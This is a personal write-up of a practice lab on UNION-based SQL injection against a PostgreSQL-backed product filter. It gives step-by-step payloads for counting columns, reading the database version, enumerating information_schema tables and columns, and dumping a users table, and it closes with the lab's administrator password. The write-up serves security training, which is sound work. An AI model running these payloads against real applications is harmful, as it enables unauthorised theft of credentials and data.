 ```yaml
---
title: 'Lab 9: SQL injection attack, listing the database ...'
updated: 2022-12-01T14:43:50.0000000+04:00
created: 2022-12-01T13:55:44.0000000+04:00
---
```


Lab 9: SQL injection attack, listing the database contents on non-Oracle databases
Thursday, December 1, 2022
1:55 PM

1.  The Following Query Is used to display all tables in the database:

| Query: | SELECT \* FROM information_schema.tables |
|--------|------------------------------------------|

2.  Displaying all columns in a table:

| Query | SELECT \* FROM information_schema.columns WHERE table_name= 'Users' |
|-------|---------------------------------------------------------------------|

**<u>(Lab-09)</u>** - **<u>SQL injection attack, listing the database contents on non-Oracle databases</u>**

**SQL Injection Vulnerability** - Product Category Filter

**End Goal**

1.  Determine table that contains usernames and passwords
2.  Determine the relevant columns
3.  Output the content of the table
4.  Login as the administrator user

**<u>Analysis:</u>**

1.  Determine the number of columns

| Query to use | ' UNION SELECT NULL, NULL-- |
|--------------|-----------------------------|

![image1](image1-191.png)

- Confirms that we have two rows.

2.  Determine which rows can hold text data

| Query to use | ' UNION SELECT 'a','a'-- |
|--------------|--------------------------|

![image2](image2-87.png)

- Confirms that both rows can hold text data,

3.  Determine Database Version

| Query to use | ' UNION SELECT version(),NULL-- |
|--------------|---------------------------------|

![image3](image3-56.png)

- Confirm its using the PostgreSQL, located in the response

![image4](image4-38.png)

4.  Determine tables in the Database

| Query to use for PostgreSQL | ' UNION SELECT table_name, NULL FROM information_schema.tables-- |
|-----------------------------|------------------------------------------------------------------|

![image5](image5-25.png)

- In the response you can search for **Users** table

![image6](image6-17.png)

5.  Output Column names of the discovered Users table.

| Query to use | SELECT column_name,NULL FROM information_schema.columns WHERE table_name = 'users_iqtahp'-- |
|--------------|---------------------------------------------------------------------------------------------|

![image7](image7-13.png)
**Table Name: users_iqtahp**

- Look through the responses and find the column names,
- In this case we can see the following column name: username_tnneey, password_lijytu

![image8](image8-11.png)

6.  Displaying the Information from the Table using the discovered table name and Column names

| Query to use | ' UNION SELECT username_tnneey, password_lijytu from users_iqtahp-- |
|--------------|---------------------------------------------------------------------|

![image9](image9-7.png)
![image10](image10-4.png)

- Now just look for the usernames and passwords

![image11](image11-3.png)
Usernames; wiener, administrator
Password: nhii3dhkw0uc4kwdtwbk, p8pphtvi9zpy177yk33y
